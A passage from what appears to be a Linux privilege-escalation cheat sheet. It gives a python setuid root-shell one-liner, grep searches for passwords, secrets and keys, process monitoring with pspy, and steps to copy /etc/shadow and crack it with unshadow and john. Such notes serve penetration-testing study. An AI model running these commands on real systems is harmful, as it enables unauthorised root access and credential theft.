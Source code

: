         ```sh
        /home/<current-user>/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
        ```

9. **Get Sensitive Contents in Files**

    ```sh
    grep root ./*
    grep password ./*

    # -e: OR Searching
    grep -e admin -e root -e credential -e password ./*
    grep -e secret -e key /*/*

    # -v: Exclude Searching
    grep -v node_modules /*/*

    # IP Address Searching
    grep -E -o "([0-9]{1,3}[\.]){3}[0-9]{1,3}" ./*
    ```

10. **Monitor Processes without Root Privileges**

    Using **[pspy](https://github.com/DominicBreuker/pspy){:target="_blank"}**, you can fetch processes even if you’re not root user.

    ```sh
    ./pspy -pf -i 1000
    ```

11. **Crack User Passwords**

    If you can access **/etc/passwd** and **/etc/shadow**, crack users password using **unshadow**.

    1. **Copy Files**

        ```sh
        cp /etc/passwd ./passwd.txt
        cp /etc/shadow ./shadow.txt
        ```

    2. **Combines Two Files**

        ```sh
        unshadow passwd.txt shadow.txt > passwords.txt
        ```

    3. **Crack Passwords**

        ```sh
        john --wordlist=wordlist.txt passwords.txt
        ```

<br />
